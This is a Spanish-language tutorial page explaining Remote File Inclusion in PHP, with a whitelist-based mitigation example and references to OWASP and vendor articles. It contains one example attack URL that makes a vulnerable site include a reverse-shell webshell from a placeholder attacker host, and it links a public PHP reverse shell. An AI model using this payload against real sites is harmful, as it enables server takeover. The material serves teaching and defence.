 [Volver al inicio](../Readme.md)
# RFI (Remote File Inclusion)

## Introducción.
Debido a una posible aplicación multiservidor u otra razón, puede ocurrir que algunos sitios web permitan la inclusión de ficheros a través de la URL. Así pues, un actor malicioso puede intentar ejecutar un archivo que permita una conexión remota y que consiga la toma de control del sitio web. Veamos un ejemplo:

Dado el funcionamiento reflejado en la siguiente URL
`https://miweb.com?pagina=siguiente.php`

Un atacante puede publicar un servicio HTTP que tenga alojado una webshell creada en PHP (vease https://github.com/pentestmonkey/php-reverse-shell) y llamar a dicho servicio HTTP desde la URL del sitio vulnerable para que incluya la webshell:

```
https://miweb.com/?pagina=http://ip_atacante/webshell.php
```
Si la configuración del sitio web permite la inclusión mediante URL (parámetro **allow_url_include = on**, obsoleto a partir de PHP 7.4.0), entonces el ataque puede tener éxito y el atacante tomar el control.
## Mitigación de la vulnerabilidad RFI
La mejor forma de evitar esta vulnerabilidad es la de rechazar la carga de ficheros a través de la URL.
En caso de no poder prescindir de esta utilidad, deberíamos realizar una white list de las páginas que pueden ser cargadas y controlarlo en el código:


```php
<?php
    $file = $_GET['file']; 

    // Lista blanca de paginas validas
    switch ($file) {
        case 'principal':
        case 'acerca':
        case 'contacta':
            include '/home/wwwrun/include/'.$file.'.php';
            break;
        default:
            include '/home/wwwrun/include/main.php';
    }
?>
```

## Bibliografía.
- Muscat I. (02/04/2020). What is Remote File Inclusion (RFI)?. Acunetix. https://www.acunetix.com/blog/articles/remote-file-inclusion-rfi/
- OWASP WSTG - v4.2. (s.f.). Testing for Remote File Inclusion. OWASP. https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion
- Andrzej Nidecki T. (s.f.). Remote file inclusion (RFI). Invicti. https://www.invicti.com/learn/remote-file-inclusion-rfi/






